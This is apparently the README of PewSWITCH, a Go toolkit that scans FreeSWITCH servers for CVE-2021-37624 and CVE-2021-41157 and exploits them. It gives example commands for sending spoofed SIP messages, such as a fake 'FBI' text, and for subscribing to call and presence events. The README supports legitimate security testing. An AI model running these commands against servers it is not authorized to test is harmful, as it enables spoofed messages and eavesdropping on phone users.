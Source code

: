 # PewSWITCH
A scanning and exploitation toolkit for CVE-2021-37624 and CVE-2021-41157 in FreeSWITCH.

> Related blog: https://0xinfection.github.io/posts/analyzing-freeswitch-vulns/

## Usage
The help statement of the tool is as below:
```groovy
$ ./pewswitch --help

     ___    .        ____       _ __      __
    / _ \___|\    __/ __/|   __(_) /_____/ /
   / ___/ -_) |/|/ /\ \| |/|/ / / __/ __/ _ \
  /_/   \__/|__,__/___/|__,__/_/\__/\__/_//_/  v0.1

       "where we pew pew pew freeswitch"

Usage of ./pewswitch:
  -cve string
        Specify a specific CVE to scan. Both vulns are tested by default.
  -delay int
        Delay in seconds between subsequent requests. (default 0)
  -events string
        Comma-separated list of events to be subscribed to. All events are monitored by default.
  -expires int
        Maximum value of the 'Expires' header for SUBSCRIBE requests. (default 60)
  -ext-file string
        Specify a file containing extensions instead of '-exts'.
  -exts string
        Comma separated list of extensions to scan.
  -msg-file string
        Specify a CSV file containing messages to be sent (if found vulnerable to CVE-2021-37624).
  -out-dir string
        Output directory to write the results to. (default "./pewswitch-results/")
  -out-format string
        Output format type of the results. Can be either 'json' or 'csv'. (default "json")
  -threads int
        Number of threads to use while scanning. (default 2)
  -user-agent string
        Custom user-agent string to use. (default "pewswitch/0.1")
```

#### Scanning for a specific vulnerability
By default the tool scans for both vulnerabilites. If you want to test for a specific vulnerability, you can use the `-cve` flag to test for a specific vulnerability.

Example:
```groovy
./pewswitch -cve 'cve-2021-37624' -exts 1000 freeserver.voip.com
```

#### Specifying extensions
To specify extensions, you can choose either of the methods:
- Specify a comma separated list of extensions via the `-exts` argument.

    Example:
    ```powershell
    ./pewswitch -exts 1000,1001 freeserver.voip.com freeserver1.voip.com:5060
    ```
    > This will make the tool to test for combinations of pairs for each extension with every host. So the end targets that will be tested in the above command are: `1000@freeserver.voip.com`, `1001@freeserver.voip.com`, `1000@freeserver1.voip.com:5060` and `1001@freeserver1.voip.com:5060`.

- Specify a file containing extensions. Note that when using a file, you need to specify both user and host. This is especially useful when you have to test specific extensions on specific servers. An example of such a file (e.g. `extensions.txt`) could look like this:
    ```
    1000@freeserver.voip.com
    1001@freeserver1.voip.com:5060
    1002@freeserver01.voip.com:5660
    ...
    ```

    Example:
    ```groovy
    ./pewswitch -ext-file extensions.txt
    ```
### Output
The tool can output in 2 different formats, namely JSON and CSV. The default output format is JSON. Output format can be changed using the `-out-format` switch.

Example:
```groovy
./pewswitch -exts 1000 -out-format csv freeserver.voip.com 
```

The destination output directory can be changed using the `-out-dir` argument. By default the output directory is `./pewswitch-results/` which is created in the current working directory while running the tool.

Example:
```groovy
./pewswitch -ext-file extensions.txt -out-dir /tmp
```

### Request Specific Settings
There are some additional vulnerability/message specific settings in the tool that allows customization of requests during exploitation.

#### MESSAGE requests
If a server is found _vulnerable_ to CVE-2021-37624, by default a sample message from name `FBI` and number `022-324-3000` is sent to the target extension. The contents of the message looks like this: `FBI here. Open your door!`

This behaviour can be changed by making use of the `-msg-file` argument. This accepts a CSV file containing the name of the sender, the phone number and lastly the message contents to be sent. An example of such a file is [messages-sample.csv](messages-sample.csv).
```
sender_name,sender_phone,message
FBI,022-324-3000,FBI here. Open your door!
0xInfection,000-000-0000,Hi. Just confirming the vulnerability.
SPAMMY SALESMAN,BAD-GUY-9999,BUY MY STUFF!
```
Example:
```groovy
./pewswitch -cve 'cve-2021-27624' -msg-file messages-sample.csv -exts 1000 freeserver.voip.com 
```

#### SUBSCRIBE requests
By default, the tool sends SUBSCRIBE requests with a `Expires` header set at 60 seconds. It is for the same time-frame, that the tool will continue to listen for NOTIFY messages from the server. The value can be changed by making use of the `-expires` flag. 

Example:
```groovy
./pewswitch -expires 600 -ext-file extensions.txt
```

The tool also monitors for NOTIFY messages by subscribing to *__all__* events. A list of all events is below:
- `talk`
- `hold`
- `conference`
- `as-feature-event`
- `dialog`
- `line-seize`
- `call-info`
- `sla`
- `include-session-description`
- `presence`
- `presence.winfo`
- `message-summary`
- `refer`

This behaviour can be changed by the `-events` flag which takes a comma separated list of events to monitor. Example:
```groovy
./pewswitch -cve 'cve-2021-41157' -events message-summary,presence -exts 1000,1002 freeserver.voip.com
```

### Setup
You can make use of the pre-built binaries from the [Releases](https://github.com/0xInfection/PewSWITCH/releases) section. Or, if you prefer to compile the code yourself, you'll need Go > 1.15. To build the tool, you can run `go build` which will give you a binary to run.

### Version and License
The tool is available under MIT License. Feel free to do whatever you want to do with it. :)

Currently, PewSWITCH is at v0.1.

